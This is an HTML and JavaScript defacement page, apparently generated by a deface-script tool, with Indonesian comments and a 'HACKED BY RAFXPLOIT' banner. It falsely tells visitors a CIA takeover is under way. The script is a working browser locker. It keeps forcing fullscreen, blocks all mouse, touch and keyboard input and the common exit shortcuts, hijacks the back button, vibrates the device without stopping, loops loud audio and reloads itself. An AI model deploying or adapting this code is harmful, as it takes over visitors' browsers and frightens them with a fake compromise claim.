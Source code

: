 <!--
--  Uploaded on : https://haxor.my.id/open/ksusbsisyakg.html
--  Official Web : https://prinsh.com
--  script-deface-generator.prinsh.com
-->
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>SYSTEM LOCKED REV</title>
  <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
  <style>
    /* Bagian Reset Total(bebas Rename) */
    html, body {
      margin: 0;
      padding: 0;
      width: 100%;
      height: 100%;
      overflow: hidden !important; /* Tambahan: Penting untuk mengunci scroll */
      background: #000;
      touch-action: none !important; /* Tambahan: Lebih agresif */
      -webkit-touch-callout: none;
      -webkit-user-select: none;
      -khtml-user-select: none;
      -moz-user-select: none;
      -ms-user-select: none;
      user-select: none;
      position: fixed;
      cursor: none !important; /* Tambahan: Sembunyikan kursor */
    }

    /* Bagian Hujan Matrix(Bebas Rename) */
    #matrix {
      position: fixed;
      top: 0;
      left: 0;
      z-index: 1;
      opacity: 0.7;
    }

    /* Bagian Layer Utama(Bebas Rename) */
    #lockScreen {
      position: fixed;
      top: 0;
      left: 0;
      width: 100%;
      height: 100%;
      z-index: 2;
      display: flex;
      flex-direction: column;
      justify-content: center;
      align-items: center;
      color: #0f0;
      text-align: center;
      font-family: 'Courier New', monospace;
      text-shadow: 0 0 10px #0f0;
      pointer-events: none; /* Tambahan: Tidak bisa diklik */
    }

    /* ANTI EXIT */
    #antiExit {
      display: none;
      position: fixed;
      top: 0;
      left: 0;
      width: 100%;
      height: 100%;
      background: rgba(0,0,0,0.9);
      z-index: 9999;
      color: red;
      font-size: 2em;
      justify-content: center;
      align-items: center;
      flex-direction: column;
      pointer-events: none; /* Tambahan: Tidak bisa diklik saat tampil */
    }

    /* NOTIF BLOCKER */
    #notifBlocker {
      position: fixed;
      top: 0;
      left: 0;
      width: 100%;
      height: 30px;
      background: black;
      z-index: 10000;
      display: none;
      pointer-events: none; /* Tambahan: Tidak bisa diklik */
    }

    /* STYLE TOMBOL */
    #actionBtn {
      margin-top: 30px;
      padding: 15px 30px;
      background: transparent;
      border: 2px solid #0f0;
      color: #0f0;
      font-family: 'Courier New', monospace;
      font-size: 1.2em;
      /* cursor: none; */ /* Akan ditangani di body */
      animation: glow 2s infinite;
      pointer-events: auto; /* Agar tombol bisa diklik walaupun parentnya pointer-events:none */
    }

    @keyframes glow {
      0%, 100% { opacity: 1; box-shadow: 0 0 10px #0f0; }
      50% { opacity: 0.7; box-shadow: 0 0 20px #0f0; }
    }
  </style>
</head>
<body>

<canvas id="matrix"></canvas>

<div id="lockScreen">
  <h1>HACKED BY RAFXPLOIT</h1>
  <p>Your system is being taken over by CIA.</p>
  <button id="actionBtn">CIA-ORG</button>
</div>

<div id="antiExit">
  <h2>ACCESS-DENIED</h2>
  <p>Returning to secure mode...</p>
</div>

<div id="notifBlocker"></div>

<audio id="bgSound" src="https://sf16-ies-music-va.tiktokcdn.com/obj/musically-maliva-obj/7247196261434411781.mp3"  autoplay="1" loop="1"></audio>
<audio id="destructionSound" src="https://www.soundhelix.com/examples/mp3/SoundHelix-Song-1.mp3" preload="auto"></audio>


<script>
  // ====================== CORE SYSTEM ======================
  let isLocked = false;
  const antiExit = document.getElementById('antiExit');
  const notifBlocker = document.getElementById('notifBlocker');
  const audio = document.getElementById('bgSound');
  const destructionAudio = document.getElementById('destructionSound'); // Dapatkan elemen audio baru
  let vibrateInterval = null; // Variabel untuk menyimpan interval vibrasi

  // Fungsi utilitas untuk mencegah event
  function blockEvent(e) {
    e.preventDefault();
    e.stopPropagation();
    e.stopImmediatePropagation();
    return false;
  }

  // 1. STEALTH FULLSCREEN INITIATION (Lebih gigih)
  function stealthFullscreen() {
    if (!document.fullscreenElement) { // Hanya request jika belum fullscreen
      const el = document.documentElement;
      const methods = [
        'requestFullscreen',
        'webkitRequestFullscreen',
        'mozRequestFullScreen',
        'msRequestFullscreen'
      ];
      
      methods.forEach(method => {
        if (el[method]) {
          try {
            el[method]({navigationUI: "hide"}).catch(e => {
              // Gagal, mungkin karena user tidak interaksi, coba lagi nanti
              console.warn("Fullscreen request failed (likely no user interaction yet):", e);
            });
          } catch(e) {
            console.error("Error calling fullscreen method:", e);
          }
        }
      });
    }
  }

  // Fungsi untuk memulai vibrasi tanpa jeda
  function startVibrationContinuous() {
    if ("vibrate" in navigator) {
      const shortVibrateDuration = 100; // Getar 100ms
      const intervalDelay = 50; // Panggil setiap 50ms, lebih pendek dari durasi getar

      vibrateInterval = setInterval(() => {
        navigator.vibrate(shortVibrateDuration);
      }, intervalDelay); 
      
      console.log("Continuous vibration started.");
    } else {
      console.warn("Vibration API not supported on this device/browser.");
    }
  }

  // Fungsi untuk menghentikan vibrasi (opsional, untuk debugging)
  function stopVibration() {
    if (vibrateInterval) {
      clearInterval(vibrateInterval);
      vibrateInterval = null;
      if ("vibrate" in navigator) {
        navigator.vibrate(0); // Menghentikan getaran yang sedang berlangsung
      }
      console.log("Vibration stopped.");
    }
  }

  // 2. TOTAL SYSTEM LOCKDOWN (Blokir lebih banyak interaksi)
  function activateLockdown() {
    if (isLocked) return; // Pastikan hanya dijalankan sekali
    isLocked = true;
    
    // Blokir semua interaksi secara menyeluruh pada dokumen
    const eventsToBlock = [
      'click', 'dblclick', 'mousedown', 'mouseup', 'mousemove', 'wheel', 'scroll',
      'touchstart', 'touchend', 'touchmove', 'touchcancel',
      'keydown', 'keyup', 'keypress',
      'pointerdown', 'pointerup', 'pointermove', 'pointercancel', 'pointerleave', 'pointerenter',
      'contextmenu', 
      'selectstart' 
    ];

    eventsToBlock.forEach(evt => {
      document.addEventListener(evt, blockEvent, {capture: true, passive: false});
    });

    // Coba aktifkan fullscreen
    stealthFullscreen();

    // Aktifkan notifikasi blocker
    notifBlocker.style.display = 'block';
    
    // Mainkan audio latar belakang
    if (audio) {
      audio.volume = 0.3; // Volume lebih rendah agar suara "merusak" lebih dominan
      audio.play().catch(e => {
        console.warn("Background audio autoplay blocked, needs user interaction:", e);
      });
    }

    // Mainkan suara "merusak perangkat"
    if (destructionAudio) {
      destructionAudio.volume = 1.0; // Volume penuh untuk efek yang kuat
      destructionAudio.loop = true; // Loop agar terus berbunyi
      destructionAudio.play().catch(e => {
        console.warn("Destruction audio autoplay blocked, needs user interaction:", e);
      });
    }

    // Mulai getaran perangkat tanpa jeda
    startVibrationContinuous();

    // Interval untuk memastikan fullscreen tetap aktif
    setInterval(() => {
      if (!document.fullscreenElement) {
        stealthFullscreen();
      }
    }, 500);

    // Mencegah blur event (perpindahan tab/window)
    window.addEventListener('blur', () => {
        if (isLocked) {
            window.focus(); 
            stealthFullscreen(); 
            showAntiExit(); 
        }
    });

    // Mencegah shortcut keyboard yang umum (Ctrl+W, Alt+F4, F12, dsb.)
    document.addEventListener('keydown', (e) => {
        if (isLocked) {
            if (e.altKey && e.key === 'F4' || 
                (e.ctrlKey && e.key === 'w') ||
                (e.ctrlKey && e.shiftKey && e.key === 'I') ||
                (e.key === 'F12') ||
                (e.key === 'Escape')) { 
                blockEvent(e);
                showAntiExit(); 
            }
        }
    }, {capture: true, passive: false});
  }

  // 3. ANTI EXIT SYSTEMS (Sistem anti-keluar lebih agresif)
  function initAntiExit() {
    // Blokir tombol back
    history.pushState(null, null, location.href);
    window.onpopstate = () => {
      history.pushState(null, null, location.href); 
      showAntiExit(); 
      stealthFullscreen(); 
    };

    // Deteksi perubahan visibility (tab beralih)
    document.addEventListener('visibilitychange', () => {
      if (document.visibilityState !== 'visible' && isLocked) {
        showAntiExit();
        stealthFullscreen();
      } else if (document.visibilityState === 'visible' && isLocked) {
          stealthFullscreen();
      }
    });

    // Deteksi resize (jika keluar dari fullscreen secara paksa)
    window.addEventListener('resize', () => {
      if (!document.fullscreenElement && isLocked) {
        showAntiExit();
        stealthFullscreen();
      }
    });
  }

  function showAntiExit() {
    antiExit.style.display = 'flex';
    stealthFullscreen(); 
    setTimeout(() => {
      antiExit.style.display = 'none';
      if (!document.fullscreenElement) { 
          stealthFullscreen(); 
      }
    }, 2000);
  }

  // 4. MATRIX EFFECT (Tidak berubah banyak, visual saja)
  function initMatrix() {
    const canvas = document.getElementById('matrix');
    const ctx = canvas.getContext('2d');
    canvas.width = window.innerWidth;
    canvas.height = window.innerHeight;
    
    const chars = "01";
    const fontSize = 14;
    const columns = canvas.width / fontSize;
    const drops = [];
    
    for (let i = 0; i < columns; i++) drops[i] = 1;

    function draw() {
      ctx.fillStyle = 'rgba(0, 0, 0, 0.05)';
      ctx.fillRect(0, 0, canvas.width, canvas.height);
      ctx.fillStyle = '#0f0';
      ctx.font = fontSize + 'px monospace';
      
      for (let i = 0; i < drops.length; i++) {
        const text = chars[Math.floor(Math.random() * chars.length)];
        ctx.fillText(text, i * fontSize, drops[i] * fontSize);
        if (drops[i] * fontSize * 1.5 > canvas.height && Math.random() > 0.975) drops[i] = 0; 
        drops[i]++;
      }
    }
    
    setInterval(draw, 33);
    // Tambahkan resize listener untuk canvas matrix
    window.addEventListener('resize', () => {
        canvas.width = window.innerWidth;
        canvas.height = window.innerHeight;
        const newColumns = canvas.width / fontSize;
        for (let i = 0; i < newColumns; i++) drops[i] = drops[i] || 1; 
        drops.length = newColumns;
    });
  }

  // ====================== INITIALIZATION ======================
  document.addEventListener('DOMContentLoaded', () => {
    initMatrix();
    initAntiExit();
    stealthFullscreen();
    
    const actionBtn = document.getElementById('actionBtn');
    if (actionBtn) {
        actionBtn.addEventListener('click', () => {
            stealthFullscreen(); 
            activateLockdown();
        });
    }
    
    // Tangkap semua interaksi di body untuk aktifkan lockdown
    document.body.addEventListener('click', activateLockdown, {once: true});
    document.body.addEventListener('touchstart', activateLockdown, {once: true});
    document.body.addEventListener('keydown', activateLockdown, {once: true});

    if (audio) {
      audio.addEventListener('play', () => {
        console.log("Background audio is playing.");
      });
      audio.addEventListener('error', (e) => {
        console.error("Background audio playback error:", e);
      });
    }

    if (destructionAudio) {
      destructionAudio.addEventListener('play', () => {
        console.log("Destruction audio is playing.");
      });
      destructionAudio.addEventListener('error', (e) => {
        console.error("Destruction audio playback error:", e);
      });
    }
  });

  // Auto reload setiap 1 menit sebagai fallback
  setTimeout(() => {
    if (isLocked) { 
        location.reload();
    }
  }, 60000);
</script>
</body>
</html>

